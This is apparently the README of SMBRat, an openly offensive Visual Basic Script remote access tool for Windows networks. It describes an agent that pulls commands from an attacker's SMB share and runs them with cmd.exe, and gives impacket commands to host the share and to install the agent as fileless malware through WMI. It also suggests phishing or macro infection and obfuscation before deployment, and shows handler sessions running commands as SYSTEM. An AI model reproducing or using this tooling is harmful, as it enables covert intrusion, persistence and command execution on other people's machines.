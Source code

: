 # SMBRat
A Windows Remote Administration Tool in *Visual Basic Script*


## Idea
*Windows Environments* like *Active Directory* Networks, get really bloated with *SMB* traffic.

All hosts get *Policies* from the *SYSVOL*, configurations need remote files to work, desktop shortcuts tend to point to ``\\something\else\in\the\network.exe``.

None would notice one more connection attempt. *Right?*

 \- Especially if it succeeds (it is a fashion to only monitor *Firewall* ***Denies***)


## Ingredients


### Agent

The `agent` is a *Visual Basic Script* that runs on the infected host and connects to the *SMB Server*. It creates a folder in there named after the host's `hostname` and primary `MAC` address (trying to be *unique* and *informative* at the same time for reporting purposes).
It does **NOT** use a drive letter to *Mount* the Share, just uses `UNC paths` to directly read remote files (no *Drive* is created in `explorer.exe`).
It also injects the `UNC path` into the `%PATH%` variable of its own execution environment (you can run executables directly from your Linux machine's filesystem).

#### Agent's Execution

The `agent` is configured to **run once**. **Statelessly**.

It's Routine is (more-or-less) as follows:
* It looks for a file named `exec.dat` in the folder it created in the *SMB Share*
* If it finds the file, it **reads its content** and executes it as a command with `cmd.exe /c <command>` like a *semi-interactive shell*.
* The command's response is stored in `output.dat` (next to `exec.dat`). 
* Deletes the `exec.dat` file.


### Handler

The `handler` needs an *SMB Server* to work. The `smbserver.py` module from [*Core Security's* `impacket`](https://github.com/coresecurity/impacket) package will do.

Most probably `smbd` would also do the trick, but hasn't been tested yet.

#### Setting up the *SMB Server*

A share with name `D$` is needed, to look like a legit Windows host's SMB.

```bash
# mkdir Share
# smbserver.py -comment "My Share" "D$" Share/
Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```


## Infection Scheme

A *While loop* can be added to the `agent.vbs`  file's beginning, with a delay statement of multiple seconds (10 secs is ideal), and it will be able to infect windows hosts by *double clicking* / *phishing* / *excel macros* / etc...

Yet, if a Windows host has *RPC* enabled, it is possible to install the *VBS* file as *fileless malware* through `WMI` and the fabulous `impacket` package examples with a command like:
```bash
$ examples/wmipersist.py '<username>:<password>@<hostname/ipaddress>' install -vbs agent.vbs -name smbrat -timer 10
```  

It is also possible to utilize the `WMI` tool by local access to install the `agent.vbs` as fileless malware.

### Obfuscation?
Visual Basic Scripts can be nicely *obfuscated*, *base64*'d as well as *minified*.

It can be really handy to give it a spin before "deploying" :wink:
* [Online Tool for VBS Obfuscation](https://isvbscriptdead.com/vbs-obfuscator/)
* [Github Repo](https://github.com/DoctorLai/VBScript_Obfuscator)

## Directory Structure in the *SMB Share*

The Directory shared through SMB (named `Share` in this example) will grow using the below structure:
```
	Share/
	|
	\--Project1/
	|	|
	|	\--<Hostname1>-<MAC_ADDRESS1>/
	|	\--<Hostname2>-<MAC_ADDRESS2>/
	|
	\--Project2/
		|
		\--<Hostname3>-<MAC_ADDRESS3>/
	[...]
```

#### Never create folders manually in the Shared Folder



## Barebone Usage

~~At time of writing, no `Handler` shell is implemented,~~ so usage can be done by just using a command like `watch` to inspect the `output.dat` file:

```bash
$ watch -n0.2 cat Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/output.dat
```
and `echo` to write stuff to the `exec.dat` file:
```bash
$ echo 'whoami /all' > Share/projectName/DESKTOP-XXXXXXX-AA\:BB\:CC\:DD\:EE\:FF/exec.dat
```

## The `handler.py`

The experimental shell works as follows: 
```bash
$ python handler.py Share/
SMBRat> 
# When a new host gets infected:
[+] Agent "DESKTOP-EG4OE7J" (00:0C:29:2B:9F:AF) just checked-in for Project: "projectName"

SMBRat> execall whoami /user

[>] Sending 'whoami /user' to "projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF" ...
		
SMBRat> 
[<] Response from 'projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF': 


USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18

^^^^^^^^^^^^^^^^^^^^ projectName/DESKTOP-EG4OE7J-00:0C:29:2B:9F:AF ^^^^^^^^^^^^^^^^^^^^
SMBRat> 
				
```

## Outstanding Pitfalls

### SMBv1 is **Not Encrypted** :

```bash
# tcpdump -i eth0 -A
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes

[...]

15:25:06.695502 IP Deskjet-4540.microsoft-ds > 172.16.47.129.3128: Flags [P.], seq 2876:2971, ack 4791, win 2110, length 95 SMB PACKET: SMBreadX (REPLY)

E...,E@.@.V.../.../....8
.&Mi~.6P..>.......[.SMB........................
.@............ .;........... .net localgroup "administrators"

[...]

15:25:06.702916 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 4917:5111, ack 3097, win 2052, length 194 SMB PACKET: SMBtrans2 (REQUEST)

E...E.@......./.../..8..i~..
.'*P....b.......SMB2......................

.F..z.....(...........z.D.........}..........\.p.r.o.j.e.c.t.N.a.m.e.\.D.E.S.K.T.O.P.-.E.G.4.O.E.7.J.-.0.0.:.0.C.:.2.9.:.2.B.:.9.F.:.A.F.\.o.u.t.p.u.t...d.a.t...

[...]

15:25:06.751372 IP 172.16.47.129.3128 > Deskjet-4540.microsoft-ds: Flags [P.], seq 6049:6393, ack 3748, win 2050, length 344 SMB PACKET: SMBwrite (REQUEST)

E...E.@....L../.../..8..i~. 
.).P....*.....T.SMB........................
.T....$.......'..$.Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Admin
Administrator
defaultuser0
The command completed successfully.

[...]

```

The traffic (file *contents* and *paths*) are tranfered in plaintext if *SMBv1 Server* is used (e.g `impacket` 's `smbserver.py`).

* An encryption/obfuscation layer would totally solve this one!

### The whole Share is *READ/WRITE* to Everyone:

All Agents can modify files stored in the **Whole Share**. Meaning they can modify the `exec.dat` of other Agents...
An `smbmap` will shed light:
```bash
$ smbmap -H 172.16.47.189
[+] Finding open SMB ports....
[+] User SMB session establishd on 172.16.47.189...
[+] IP: 172.16.47.189:445	Name: Deskjet-4540                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	D$                                                	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\D$\SVNRmxBFAO, plreae remove manually
	IPC$                                              	READ, WRITE
	[!] Unable to remove test directory at \\172.16.47.189\IPC$\SVNRmxBFAO, plreae remove manually
```
#### Pay attention to the lack of `-u` and `-p` parameters of `smbmap`.
This is a *NULL session* (like FTP anonymous login). **EVERYONE can change the SHARE Files** and get *Remote Code Execution* on all infected machines.

* Better fire up some `iptables` here...
